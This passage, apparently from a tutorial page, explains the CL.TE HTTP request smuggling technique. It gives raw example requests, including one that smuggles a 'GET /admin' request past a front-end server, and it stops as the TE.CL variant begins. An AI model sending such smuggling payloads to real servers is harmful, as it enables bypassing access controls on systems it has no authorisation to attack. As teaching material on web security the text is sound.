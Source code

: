 ### CL.TE

In this attack, the front-end server uses the "Content-Length" header, and the backend server uses the "Transfer-Encoding" header.

```
POST / HTTP/1.1
Host: unstable.com
Content-Length: 7
Transfer-Encoding: chunked

0

asdasd
```

1. The front-end server will process the "Content-Length" header and will determine the length "7" up to the "asdasd".
2. The backend server will process the request by prioritizing the "Transfer-Encoding" header and sees the message body is chunked encoded. It will process the first chunk which is "0" and will terminate the request. The remaining body "asdasd" will remain unprocessed and will be used as part of the next pipeline HTTP request.

#### Response:

```
HTTP/1.1 404 Not Found
Connection: Close
Content-Length: 0

"Unrecognized method asdasdPOST"
```

#### Example

```
POST / HTTP/1.1
Host: unstable.com
Content-Length: 7
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: unstable.com
Content-Length: 7

asdasd
```

### TE.CL

As of now, you might have guessed that the front-end server will use "Transfer-Encoding" and the backend server will use the "Content-Length" header.
